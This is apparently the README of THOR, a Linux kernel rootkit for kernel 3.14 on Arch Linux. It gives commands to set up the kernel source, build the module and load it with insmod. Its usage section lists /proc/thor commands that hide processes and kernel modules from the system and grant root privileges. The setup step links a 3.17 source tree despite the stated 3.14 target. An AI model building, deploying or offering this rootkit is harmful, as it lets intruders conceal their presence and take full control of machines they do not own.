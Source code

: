 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor (hides process PID)
       echo up PID    > /proc/thor (unhides process PID)
       echo upa       > /proc/thor (unhide all PIDs)
       echo hm MODULE > /proc/thor (hide module)
       echo um MODULE > /proc/thor (unhide module)
       echo uma       > /proc/thor (unhide all modules)
       echo root      > /proc/thor (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [XieRan](https://github.com/nareix/tls-example)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
